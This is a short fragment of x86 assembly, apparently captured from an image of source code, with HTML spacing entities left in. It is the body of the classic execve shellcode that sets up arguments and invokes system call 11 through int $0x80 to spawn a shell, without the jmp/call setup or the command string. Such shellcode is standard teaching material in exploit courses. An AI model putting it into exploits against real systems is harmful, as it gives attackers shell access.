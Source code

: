 &nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;popl&nbsp; &nbsp;%esi

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;%esi,0x8(%esi)

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;xorl&nbsp; &nbsp;%eax,%eax

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movb&nbsp; &nbsp;%eax,0x7(%esi)

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;%eax,0xc(%esi)

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movb&nbsp; &nbsp;$0xb,%al

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;%esi,%ebx

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;leal&nbsp; &nbsp;0x8(%esi),%ecx

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;leal&nbsp; &nbsp;0xc(%esi),%edx

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;int&nbsp; &nbsp; $0x80

